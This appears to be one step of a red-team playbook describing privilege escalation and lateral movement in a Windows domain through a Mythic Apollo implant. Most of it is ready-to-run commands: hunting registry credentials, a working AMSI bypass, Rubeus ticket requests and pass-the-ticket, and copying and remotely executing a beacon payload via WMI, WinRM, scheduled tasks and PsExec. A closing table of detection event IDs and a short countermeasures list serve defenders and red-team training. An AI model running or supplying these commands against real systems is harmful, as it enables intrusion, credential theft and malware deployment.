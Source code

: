 # Step 3: Pursue Privilege Escalation Methods for Lateral Movement

**Objective**: Forge validated session/ticket and extend access to privileged host (it-workstation subnet). 

---

## Context

- Existing C2 implant for foothold in user-workstation-subnet
- Operator access via Mythic agent Apollo

---

## Execution

### Privilege Escalation

#### 1. Enumerate Local Privilege Escalation Vectors

- Utilize Mythic Agent Apollo (automated script) to attempt the following privilege escalation vectors:
  - Misconfigured Services  
    ```powershell
    task apollo shell 'sc qc <serviceName>'
    ```
  - User Account Control (UAC) Misconfigurations  
    ```powershell
    task apollo shell 'reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System'
    ```
  - PATH Hijacks  
    ```powershell
    task apollo shell 'echo %PATH%'
    ```
  - Misconfigured Scheduled Tasks  
    ```powershell
    task apollo shell 'schtasks /query /fo LIST /v'
    ```
  - Misconfigured Windows Installer Policy (AlwaysInstallElevated)  
    ```powershell
    task apollo shell 'reg query HKCU\Software\Policies\Microsoft\Windows\Installer'
    ```
  - Writable FileSystem Locations  
    ```powershell
    task apollo shell 'icacls C:\ /T | findstr "(F)"'
    ```
  - Impersonate existing elevated token/process privileges  
    ```powershell
    task apollo shell 'whoami /groups'
    ```
  - Existing registry credentials/files/memory  
    ```powershell
    task apollo shell 'reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon"'
    ```

#### 2. Locate Stored IT-Admin Credentials in Registry

- Utilizing Mythic Agent Apollo, inspect:
  - AutoLogon credentials  
    ```powershell
    task apollo shell 'reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon"'
    ```
  - Remote management tool caches  
    ```powershell
    task apollo shell 'dir /s /b "C:\Users\*\AppData\Roaming\*.xml"'
    ```
  - Common IT-Admin tool keys  
    ```powershell
    task apollo shell 'reg query HKCU\Software\mRemoteNG /s'
    ```
  - Custom IT-Admin scripts/tools  
    ```powershell
    task apollo shell 'dir "C:\Scripts" /s'
    ```

#### 3. Bypass AMSI (Anti-Malware Scan Interface) & Load Rubeus in Memory

- Load AMSI bypass script  
    ```powershell
    task apollo shell '[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiInitFailed","NonPublic,Static").SetValue($null,$true)'
    ```
- Load Rubeus via reflective PE injection  
    ```powershell
    task apollo execute-assembly rubeus.exe /command:"help"
    ```

#### 4. Request TGT + PTT (validated ticket)

- Request TGT (if using harvested hash or password)  
    ```powershell
    task apollo execute-assembly rubeus.exe /command:"asktgt /user:it-admin /rc4:<NTLM hash> /domain:corp.local /ptt"
    ```
- Alternatively, pass pre-obtained `.kirbi` file into memory  
    ```powershell
    task apollo execute-assembly rubeus.exe /command:"ptt /ticket:itadmin.kirbi"
    ```

---

### Lateral Movement

#### 1. Remote Access on Target Machines

- Request TGS for remote file access  
    ```powershell
    task apollo execute-assembly rubeus.exe /command:"asktgs /service:cifs/it-wkst01.corp.local /ptt"
    ```
- Access remote share to validate  
    ```powershell
    task apollo shell 'dir \\it-wkst01\C$'
    ```

#### 2. Jump to IT Subnet

- Upload payload via SMB  
    ```powershell
    task apollo shell 'copy beacon.exe \\it-wkst01\C$\Users\Public\'
    ```
- Remotely execute payload  
  - WMI  
    ```powershell
    task apollo shell 'wmic /node:it-wkst01 process call create "C:\Users\Public\beacon.exe"'
    ```
  - WinRM  
    ```powershell
    task apollo shell 'Invoke-Command -ComputerName it-wkst01 -ScriptBlock { Start-Process "C:\Users\Public\beacon.exe" }'
    ```
  - Scheduled Task  
    ```powershell
    task apollo shell 'schtasks /create /s it-wkst01 /tn Update /tr "C:\Users\Public\beacon.exe" /sc once /st 00:00 && schtasks /run /s it-wkst01 /tn Update'
    ```
  - PSExec (if allowed)  
    ```powershell
    task apollo shell 'psexec \\it-wkst01 C:\Users\Public\beacon.exe'
    ```

#### 3. Perform SA

- Who am I?  
    ```powershell
    task apollo shell 'whoami /all'
    ```
- Running processes  
    ```powershell
    task apollo shell 'tasklist'
    ```
- Logged-in users  
    ```powershell
    task apollo shell 'query user'
    ```
- Admins on box  
    ```powershell
    task apollo shell 'net localgroup administrators'
    ```
- Trust relationships  
    ```powershell
    task apollo shell 'nltest /domain_trusts'
    ```

---

## Result

- Access to privileged credentials for lateral movement
- Beacon persistence
- Red Team is deeply rooted IT subnet allowing full access to HR, user, fin, and sec subnets

---

## Detection Opportunities

| **Event ID**    | **Description**                                                    |
| --------------- | ------------------------------------------------------------------ |
| **4624**        | Successful logon (Type 3 = network, Type 10 = RDP)                 |
| **4625**        | Failed logon (brute-force or bad creds)                            |
| **4634**        | Logoff event (used to correlate sessions)                          |
| **4672**        | Special privileges assigned (e.g., SeDebugPrivilege)               |
| **4688**        | Process creation (e.g., `cmd.exe`, `powershell.exe`, `rubeus.exe`) |
| **4697**        | Service installation (e.g., PSExec payloads)                       |
| **4698**        | Scheduled task created                                             |
| **4702**        | Scheduled task updated                                             |
| **4656**        | Handle requested on object (e.g., LSASS memory access attempt)     |
| **4663**        | Object accessed (file/service/registry write attempt)              |
| **4657**        | Registry value modified (e.g., AutoLogon creds)                    |
| **4768**        | Kerberos TGT requested                                             |
| **4769**        | Kerberos TGS requested (e.g., `cifs/host`, `host/target`)          |
| **4770**        | TGT renewal                                                        |
| **4771**        | Kerberos pre-auth failed (ticket manipulation or brute force)      |
| **4776**        | NTLM authentication attempted                                      |
| **5140**        | Network share accessed (e.g., `\\host\C$`)                         |
| **7045**        | New service installed (e.g., PSExec's `PSEXESVC`)                  |
| **4104**        | PowerShell script block logging (encoded commands, AMSI bypasses)  |
| **1 (Sysmon)**  | Process creation (alternative to 4688, richer details)             |
| **10 (Sysmon)** | Process accessed another process (e.g., LSASS memory)              |
| **13 (Sysmon)** | Registry key/value modification                                    |
| **15 (Sysmon)** | File created (e.g., Rubeus dropped to disk)                        |

---

## Defensive Countermeasures

- Restrict lateral tools where not needed (PSExec, WMI, remote PowerShell)
- Enforce least privilege
- Enable credential guard / LSASS protection to prevent memory scraping
- Detect admin shares (C$ access) and lateral movement patterns
- Use honeypot credentials to trigger alerts
